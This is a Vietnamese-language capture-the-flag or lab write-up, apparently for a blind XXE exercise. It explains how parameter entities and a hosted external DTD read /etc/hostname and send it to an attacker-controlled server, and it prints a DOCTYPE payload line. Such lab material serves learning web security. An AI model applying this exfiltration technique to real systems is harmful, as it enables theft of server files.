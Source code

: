 ## Root Cause:

XML Parser đã có tắt tính năng xử lý External Entities những vẫn cho phép Parameter Entity 

## Cách khai thác:

Go to exploit server, sửa Body thành:

![image.png](Images/image%2013.png)

Giải thích: 

Tạo thực thể Parameter Entity %file; trỏ đến /etc/hostname, giúp đọc nội dung file đó.
Tạo thực thể %eval;, nó không chứa dữ liệu mà chỉ là một thực thể trung gian, khai báo một thực thể khác là %exfiltrate;.
&#x25; là ký tự % được mã hóa Unicode, giúp tránh lỗi khi khai báo.

Tạo thực thể %exfiltrate;, trỏ đến một URL của attacker, có tham số chứa %file;.
Khi %exfiltrate; được mở rộng, nội dung của /etc/hostname sẽ được gửi đi qua HTTP request.

Gọi thực thể %eval;, mục đích là:
Parser sẽ mở rộng %eval;, từ đó khai báo %exfiltrate; ngay sau khi %file; đã có dữ liệu đầy đủ.
Nếu gọi trực tiếp %exfiltrate;, %file; chưa được mở rộng, dẫn đến lỗi.

Vào repeater, gửi payload có chứa **Parameter entity** trỏ đến exploit server:

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "aaaaaaaaaaa"> %xxe; ]>

![image.png](Images/image%2014.png)

Vào phần access log của exploit server, ta sẽ thấy được thông tin /etc/hostname được lấy thông qua thực thể file

![Screenshot 2025-03-14 155641.png](Images/Screenshot_2025-03-14_155641.png)
